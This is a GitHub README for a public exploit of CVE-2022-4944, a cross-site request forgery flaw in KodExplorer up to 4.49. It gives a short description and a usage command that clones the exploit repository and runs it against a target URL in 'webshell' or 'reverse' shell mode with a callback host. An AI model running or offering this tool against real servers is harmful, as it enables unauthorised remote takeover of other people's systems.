

<h1 align="center">「💥」CVE-2022-4944</h1>

<p align="center"></p>

## Description

A vulnerability, which was classified as problematic, was found in kalcaddle KodExplorer up to 4.49. This affects an unknown part. The manipulation leads to cross-site request forgery. This vulnerability is uniquely identified as CVE-2022-4944. It is possible to initiate the attack remotely. Furthermore, there is an exploit available. It is recommended to upgrade the affected component.

## Demo



## Usage

```
pip install requests
git clone https://github.com/MrEmpy/CVE-2022-4944.git
cd CVE-2022-4944
python3 CVE-2022-4944.py -u http://TARGET.TLD/KODExplorer -lh LOCALHOST -m MODE # webshell/reverse mode
```

## Reference

* https://vuldb.com/?id.227000
* https://www.cve.org/CVERecord?id=CVE-2022-4944
